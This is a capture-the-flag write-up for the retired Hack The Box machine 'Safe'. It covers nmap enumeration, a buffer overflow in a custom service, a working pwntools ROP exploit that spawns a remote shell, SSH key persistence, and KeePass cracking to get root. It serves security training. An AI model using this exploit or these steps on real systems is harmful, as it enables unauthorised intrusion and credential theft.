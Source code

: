 ```yaml
---
title: Safe -- Hackthebox Writeup 
published: true
ayout: post
date: 2021-08-2 18:54 +0600
image: "https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2020-03-19-Hackthebox_Safe/0.png"
permalink: /Safe-Hackthebox-Writeup/
tags: Safe -- Hackthebox Writeup 
featured: false
---
```


# [](#header-1)Safe -- Hack the Box write-up

**Safe** is a _retired_ machine from Hack the Box. It is rated as a easy machine, however, the user own difficulty is rated medium-hard (probably for containing a ROP exploitable binary, uncommon in this platform).
## [](#header-2)Enumeration

First, let's start running a quick scan to discover which ports are open.
`nmap -T5 -n -Pn -oG fastscan -p- 10.10.10.147`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 16:00 EDT                                                                                                                                 
Warning: 10.10.10.147 giving up on port because retransmission cap hit (2).                                                                                                                                     
Nmap scan report for 10.10.10.147                                                                                                                                                                               
Host is up (0.049s latency).                                                                                                                                                                                    
Not shown: 65532 closed ports                                                                                                                                                                                   
PORT     STATE SERVICE                                                                                                                                                                                          
22/tcp   open  ssh                                                                                                                                                                                              
80/tcp   open  http                                                                                                                                                                                             
1337/tcp open  waste                                                                                                                                                                                            
                                                                                                                                                                                                                
Nmap done: 1 IP address (1 host up) scanned in 113.76 seconds   
```
Now, let's look more in depth what is the service associated with each port `nmap -T5 -n -p 22,80,1337 -sC -sV -oG indepthscan 10.10.10.147`:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 17:17 EDT
Nmap scan report for 10.10.10.147
Host is up (0.052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
1337/tcp open  waste?
| fingerprint-strings:
|   DNSStatusRequestTCP:
|     17:30:31 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   DNSVersionBindReqTCP:
|     17:30:26 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   GenericLines:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   GetRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? GET / HTTP/1.0
|   HTTPOptions:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / HTTP/1.0
|   Help:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? HELP
|   NULL:
|     17:30:15 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RPCCheck:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|   RTSPRequest:
|     17:30:21 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back? OPTIONS / RTSP/1.0
|   SSLSessionReq:
|     17:30:36 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|     What do you want me to echo back?
|   TLSSessionReq, TerminalServerCookie:
|     17:30:37 up 3:13, 0 users, load average: 0.00, 0.00, 0.00
|_    What do you want me to echo back?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.80%I=7%D=3/19%Time=5E73E16E%P=x86_64-pc-linux-gnu%r(NU
SF:LL,3E,"\x2017:30:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x
SF:20average:\x200\.00,\x200\.00,\x200\.00\n")%r(GenericLines,63,"\x2017:3
SF:0:15\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200
SF:\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20ec
SF:ho\x20back\?\x20\r\n")%r(GetRequest,71,"\x2017:30:21\x20up\x20\x203:13,
SF:\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.0
SF:0\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20GET\x20
SF:/\x20HTTP/1\.0\r\n")%r(HTTPOptions,75,"\x2017:30:21\x20up\x20\x203:13,\
SF:x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00
SF:\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIONS\
SF:x20/\x20HTTP/1\.0\r\n")%r(RTSPRequest,75,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20OPTIO
SF:NS\x20/\x20RTSP/1\.0\r\n")%r(RPCCheck,3E,"\x2017:30:21\x20up\x20\x203:1
SF:3,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\
SF:.00\n")%r(DNSVersionBindReqTCP,3E,"\x2017:30:26\x20up\x20\x203:13,\x20\
SF:x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")
SF:%r(DNSStatusRequestTCP,3E,"\x2017:30:31\x20up\x20\x203:13,\x20\x200\x20
SF:users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n")%r(Help,
SF:67,"\x2017:30:36\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20a
SF:verage:\x200\.00,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me
SF:\x20to\x20echo\x20back\?\x20HELP\r\n")%r(SSLSessionReq,64,"\x2017:30:36
SF:\x20up\x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00
SF:,\x200\.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x
SF:20back\?\x20\x16\x03\n")%r(TerminalServerCookie,63,"\x2017:30:37\x20up\
SF:x20\x203:13,\x20\x200\x20users,\x20\x20load\x20average:\x200\.00,\x200\
SF:.00,\x200\.00\n\nWhat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\
SF:?\x20\x03\n")%r(TLSSessionReq,64,"\x2017:30:37\x20up\x20\x203:13,\x20\x
SF:200\x20users,\x20\x20load\x20average:\x200\.00,\x200\.00,\x200\.00\n\nW
SF:hat\x20do\x20you\x20want\x20me\x20to\x20echo\x20back\?\x20\x16\x03\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.54 seconds
```

Hmmm... Looks like we have a l33t port open. We'll see what is running there later. 
By now, time to start my reconaissance part.

## [](#header-2)Recon

First, let's check if any of the running services can be exploited remotely.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/searchsploit.PNG)

Nothing interesting so far. Better to see what is running under port 80.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/port80.PNG)

Hurray, a boring **Apache** default page... Fuzzing does not give us any interesing information either.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

However, reviewing the page source code gives us finally some valuable info! It seems that an app called 'myapp' (duh) is running under port 1337. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/fuzz.PNG)

Also, we can download it by browsing into http://10.10.10.147/myapp. `curl -v -XGET http://10.10.10.147/myapp -o myapp` 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/download_bin.PNG)

It smells like a challenge similar to the BOF from the OSCP :). We need to confirm it sending a large message to the program. 
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/overflow.PNG)

Yep, we go the buffer overflow. Let's run `checksec` to see if it has any security measures enabled.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/checksec.PNG)

Yikes, **NX enabled** (non-executable stack). We can not simply put our shellcode in the stack to jump and execute it. 

After opening the binary with **Ghidra** and looking into the decompiled code, we can ensure that there exists the buffer overflow as only **112 characters** are reserved for the string.

![](https://github.com/kikoas1995/kikoas1995.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/decompiledC.PNG)
Also, the function system is called, which can allow us to execute remote code via ROP. Obviously, the argument passed to this function is not a shell. It is actually the _uptime_ binary:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/uptime_rdi.PNG)
![](uptime exec)

## [](#header-2)Exploitation

It is time to use some binary exploitation skills. 
We need a way to put `/bin/sh` onto the _rdi_ register and then call the local function `system()`. 
> Note: _rdi_ register always acts as the first argument for the function that will be called. In x86 binaries, arguments were passed pushing registers into the stack.  

Using `objdump` we find a `system()` call in address 0x401040.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/system_addr.PNG)

Now I will use `gef` to inspect the source code main and test functions.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/info_functions.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/disas main tests.PNG)

Apparently, when the `test()` function ends, jumps to the memory address stored in the r13 register, so we need to put there the `system()` call we addressed before. In order to do this we need to look for a ROP gadget where we can store the system call. I will simplify this process using **ropper**:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ropper.PNG)

Looks like `0x0000000000401206` would work for us.

We are almost finishing! We need to overwrite the stack base pointer with our shell, which will be done with the _pattern create_ and _pattern offset_ utilities of `gef`: 

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_create.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/pattern_offset.PNG)
So the string `oaaaaaaa` will be in our case a `/bin/sh\x00`. Time to develope our own exploit with the help of **pwntools**.

```python
from pwn import *

p = remote('10.10.10.147', 1337) 
buffer = "A"*112 + "/bin/sh\x00"   # rbp = /bin/sh\x00
buffer += p64(0x401206)            # ROP gadget addr
buffer += p64(0x401040)            # r13 = system() call addr 
buffer += p64(0x000000)            # r14 = blank
buffer += p64(0x000000)            # r15 = blank
buffer += p64(0x401152)            # init() addr

print("Safe(10.10.10.147) HTB machine remote exploit") 
p.sendline(buffer)
p.interactive()
```
It worked!!! :D
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/remoteshell.PNG)

As the SSH service is enabled, I can add my public key to the authorized_keys file on the target:
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/ssh-keygen.PNG)
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/sshshell.PNG)

## [](#header-2)Privilege Escalation

Root is easier than user, you'll see. First, Copy every file from the user folder.

![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/scp.PNG)

Now let's crack the keepass database. We have a list of images which can be a hint that the database key could be one of them. However, in addition to the file, it is protected with a password, so I will use a small wordlist for each image  used to decrypt de database.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/crack_keepass.PNG)

It seems that the IMG_0547.JPG, along with the password 'bullshit', is our entrance to root :).
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/root_pwd.PNG)

Performing a su root with the password retrieved leads us to our beloved root shell. Reading the flags from here is trivial.
![](https://github.com/Spy0x7/Spy0x7.github.io/blob/master/assets/2020-03-19-Hackthebox_Safe/flags.PNG)

